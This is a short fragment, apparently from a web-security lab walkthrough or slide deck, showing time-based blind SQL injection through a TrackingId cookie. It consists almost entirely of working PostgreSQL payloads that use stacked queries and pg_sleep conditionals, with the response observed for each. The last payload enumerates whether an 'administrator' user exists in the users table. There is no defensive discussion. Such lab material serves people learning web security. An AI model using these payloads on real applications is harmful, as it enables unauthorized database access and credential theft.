

Query2:    TrackingId=xyz‘%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

The application takes 10 seconds to respond

Query3:   TrackingId=xyz'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--

The application responds immediately with no time delay

Query4:TrackingId=xyz'%3BSELECT+CASE+WHEN+(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--

 IF delay occurs ,the condition is true, confirming that there is a user called administrator.